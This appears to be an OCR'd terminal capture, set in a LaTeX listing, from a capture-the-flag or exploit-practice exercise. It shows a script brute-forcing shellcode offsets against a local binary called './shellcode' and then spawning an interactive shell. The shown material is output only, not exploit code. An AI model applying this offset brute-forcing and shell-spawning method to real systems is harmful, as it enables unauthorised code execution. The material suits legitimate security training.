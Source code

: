 \documentclass{article}
\begin{document}
\begin{lstlisting}
> ./shellcode_solution.py
[*] Trying offset -200
[+] Starting local process './shellcode': pid 18710
[!] ASLR is disabled!
[*] Trying offset -186
[+] Starting local process './shellcode': pid 18712
[*] Trying offset -172
[+] Starting local process './shellcode': pid 18714
[*] Process './shellcode' stopped with exit code -11 (SIGSEGV) (pid 18714)
[*] Trying offset -158
[+] Starting local process './shellcode': pid 18716
[*] Process './shellcode' stopped with exit code -4 (SIGILL) (pid 18716)
[*] Trying offset -144
[+] Starting local process './shellcode': pid 18718
[*] Trying offset -130
[+] Starting local process './shellcode': pid 18720
[*] Trying offset -116
[+] Starting local process './shellcode': pid 18722
[*] Trying offset -102
[+] Starting local process './shellcode': pid 18724
[*] Trying offset -88
[+] Starting local process './shellcode': pid 18726
[*] Trying offset -74
[+] Starting local process './shellcode': pid 18728
[*] Trying offset -60
[+] Starting local process './shellcode': pid 18730
[*] Trying offset -46
[+] Starting local process './shellcode': pid 18732
[*] Trying offset -32
[+] Starting local process './shellcode': pid 18734
[*] Trying offset -18
[+] Starting local process './shellcode': pid 18736
[*] Trying offset -4
[+] Starting local process './shellcode': pid 18738
[*] Trying offset 10
[+] Starting local process './shellcode': pid 18740
[*] Trying offset 24
[+] Starting local process './shellcode': pid 18742
[*] Trying offset 38
[+] Starting local process './shellcode': pid 18744
[*] Trying offset 52
[+] Starting local process './shellcode': pid 18746
[+] Offset 52 works!!!
[*] Trying offset 66
[+] Starting local process './shellcode': pid 18749
[+] Offset 66 works!!!
[*] Trying offset 80
[+] Starting local process './shellcode': pid 18752
[*] Trying offset 94
[+] Starting local process './shellcode': pid 18754
[*] Trying offset 108
[+] Starting local process './shellcode': pid 18756
[*] Trying offset 122
[+] Starting local process './shellcode': pid 18758
[*] Trying offset 136
[+] Starting local process './shellcode': pid 18760
[*] Trying offset 150
[+] Starting local process './shellcode': pid 18762
[*] Trying offset 164
[+] Starting local process './shellcode': pid 18764
[*] Trying offset 178
[+] Starting local process './shellcode': pid 18766
[*] Trying offset 192
[+] Starting local process './shellcode': pid 18768
[+] Spawning shell with offset 73
[+] Starting local process './shellcode': pid 18770
[*] Switching to interactive mode
Enter the password:
You don't have permission to perform this action.
$ whoami
devneal
$
\end{lstlisting}
\end{document}
